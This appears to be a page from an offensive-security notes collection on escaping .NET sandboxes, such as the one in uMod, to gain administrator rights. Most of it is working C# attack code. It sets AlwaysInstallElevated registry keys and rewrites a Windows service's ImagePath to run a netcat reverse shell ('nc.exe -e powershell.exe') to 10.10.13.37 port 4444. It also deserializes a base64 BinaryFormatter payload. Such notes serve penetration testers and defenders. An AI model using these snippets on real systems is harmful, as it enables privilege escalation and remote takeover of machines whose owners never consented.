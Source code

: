### .NET Sandboxes

When an attacker can compile arbitrary code in privileged context but a Sandbox is in game (like in [uMod](https://umod.org/documentation/api/security)) the following approaches can be leveraged to gain admin privs:

* Registry keys manipulation.
* Deserialization [attacks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net).

Example #1 (Registry) - AlwaysInstallElevated:

```csharp
using Microsoft.Win32;
...
using (var hklm = RegistryKey.OpenBaseKey(RegistryHive.LocalMachine, RegistryView.Registry64))
using (var key = hklm.CreateSubKey(@"SOFTWARE\Policies\Microsoft\Windows\Installer", true))
{
	key.SetValue("AlwaysInstallElevated", 0x1, RegistryValueKind.DWord);
}

using (var hkcu = RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64))
using (var key = hkcu.CreateSubKey(@"SOFTWARE\Policies\Microsoft\Windows\Installer", true))
{
	key.SetValue("AlwaysInstallElevated", 0x1, RegistryValueKind.DWord);
}
...
```

Example #2 (Registry) - Service binary path:

```csharp
using Microsoft.Win32;
...
RegistryKey key = Registry.LocalMachine.OpenSubKey(@"SYSTEM\CurrentControlSet\services\wuauserv", true);
if (key != null)
{
   key.SetValue("ImagePath", "c:\windows\system32\spool\drivers\color\nc.exe -e powershell.exe 10.10.13.37 4444", RegistryValueKind.String);
   key.Close();
}
...
```

Example #3 (Deserialization) - BinaryFormatter:

```
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;
...
byte[] payload = Convert.FromBase64String("<BASE64_PAYLOAD>");
//string payload_decoded = Encoding.UTF8.GetString(payload);
BinaryFormatter formatter = new BinaryFormatter();
Stream stream = new MemoryStream(payload);
object obj = formatter.Deserialize(stream);
...
```
